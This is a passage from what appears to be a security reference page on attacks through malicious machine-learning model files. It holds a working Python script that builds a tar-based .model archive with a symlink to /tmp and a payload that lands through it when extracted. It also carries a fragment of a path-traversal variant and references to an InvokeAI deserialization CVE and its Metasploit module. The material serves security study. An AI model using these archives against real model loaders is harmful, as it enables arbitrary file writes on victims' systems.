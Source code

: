 ```
with tarfile.open("traversal_demo.model", "w:gz") as tf:
    tf.add("harmless.txt", filter=escape)
```
```
Or, with the following code you can create a model that will create a symlink to the `/tmp` directory when loaded:

```python
import tarfile, pathlib

TARGET  = "/tmp"        # where the payload will land
PAYLOAD = "abc/hacked"

def link_it(member):
    member.type, member.linkname = tarfile.SYMTYPE, TARGET
    return member

with tarfile.open("symlink_demo.model", "w:gz") as tf:
    tf.add(pathlib.Path(PAYLOAD).parent, filter=link_it)
    tf.add(PAYLOAD)                      # rides the symlink
```
```
### Deep-dive: Keras .keras deserialization and gadget hunting

For a focused guide on .keras internals, Lambda-layer RCE, the arbitrary import issue in ≤ 3.8, and post-fix gadget discovery inside the allowlist, see:

[[../generic-methodologies-and-resources/python/keras-model-deserialization-rce-and-gadget-hunting.md]]

## References

- [[https://www.offsec.com/blog/cve-2024-12029/|OffSec blog – "CVE-2024-12029 – InvokeAI Deserialization of Untrusted Data"]]
- [[https://github.com/invoke-ai/invokeai/commit/756008dc5899081c5aa51e5bd8f24c1b3975a59e|InvokeAI patch commit 756008d]]
- [[https://www.rapid7.com/db/modules/exploit/linux/http/invokeai_rce_cve_2024_12029/|Rapid7 Metasploit module documentation]]
- [[https://pytorch.org/docs/stable/notes/serialization.html#security|PyTorch – security considerations for torch.load]]

